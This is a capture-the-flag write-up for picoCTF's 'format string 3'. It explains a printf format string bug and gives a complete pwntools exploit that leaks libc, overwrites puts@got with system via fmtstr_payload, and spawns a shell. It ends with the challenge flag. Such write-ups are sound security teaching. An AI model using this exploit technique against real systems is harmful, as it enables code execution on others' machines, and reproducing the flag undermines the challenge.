 # format string 3
> Write-up author: jon-brandy

## DESCRIPTION:
<p align="justify">This program doesn't contain a win function. How can you win? Download the binary here. Download the source here. Download libc here, download the interpreter here. Run the binary with these two files present in the same directory.

Additional details will be available after launching your challenge instance.</p>

## HINT:
Is there any way to change what a function points to?

## STEPS:
1. In this challenge we're given both the source code and the binary.
2. The binary is 64 bit LSB, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/aeb18692-e6df-4e6e-8fb3-2a58970dfce1)

> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/501481c6-f188-47a8-88f1-381af3a42538)

3. Upon reviewing the source code, the challenge is very straightforward.
4. The binary is **Partial RELRO** and there's a **printf()** usage which missing it's format specifier, hence introducing FSB (Format String Bug).
5. At next LOC, a **puts()** called and `/bin/sh` string used as the argument.
6. Our objective is to overwrite `puts@got` with `libc.sym.system`. It shall gets us a shell --> `system("/bin/sh")`.
7. Now let's identify which `function@got` can be overwritten.

> IN GDB

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/48b9bbb5-75a3-4a82-96f6-f6707e3e8456)

8. Nice! `puts@got` can be overwritten.
9. Now let's find the offset.

> RESULT

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/e1d98173-dfb9-492a-96da-f9b7a0e08d66)


10. To overwrite the GOT, I used `fmtstr_payload`, here's the full script:

> FULL SCRIPT

```py
from pwn import * 

exe = './format-string-3'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

library = './libc.so.6'
libc = context.binary = ELF(library, checksec=False)

# sh = process(exe)
sh = remote('rhea.picoctf.net', 58943)

sh.recvuntil(b'libc: ')
get = sh.recvline().strip()
get = eval(get)
info(f'LIBC LEAK --> {hex(get)}')

libc.address = get - libc.sym['setvbuf']
info(f'LIBC BASE --> {hex(libc.address)}')

payload = fmtstr_payload(38, {elf.got['puts']:libc.sym['system']})
sh.sendline(payload)

sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/8632e711-0d0e-421b-af65-27f87106a9bf)

11. We got the flag!

## FLAG:

```
picoCTF{G07_G07?_cf6cb591}
```
